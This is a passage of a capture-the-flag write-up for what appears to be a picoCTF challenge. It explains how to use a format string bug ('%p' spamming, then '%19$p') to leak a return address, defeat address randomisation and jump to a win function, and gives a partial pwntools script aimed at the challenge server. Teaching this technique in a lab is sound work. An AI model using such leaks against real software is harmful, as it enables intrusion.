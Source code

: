 ```c

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

### Exploitation Steps
#### Analysis
Second challenge is a bit harder. Instead of giving you the address directly, it gives you a format string vulnerability.
You can use this vulnerability to leak the return address of `call_function` or any address in the elf binary.
After you using the leaked address to get the base address, everything else will be the same.

#### Leak the return address
No matter how the address of elf binary changes, its last 3 hex digits will never change. You can use this idea to find the format index.

Run the program in `gdb` and break into `call_functions`, you can find out where this function will return to `main+65`, and the address ends with `441`. 
By spamming input `%p %p %p ...` and count until a hexadecimal number end with `441`, you will find the format index of return address is 19.
Now you can just use `%19$p` to get the return address.

#### Calculate the address of win and send it
After you leak the return address, subtract the offset main+65 to get the base address. The rest is exactly like the previous challenge.
### Solution
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./vuln_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""

def conn():
    if args.REMOTE:
        r = remote("rescued-float.picoctf.net", 61919)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()
    
```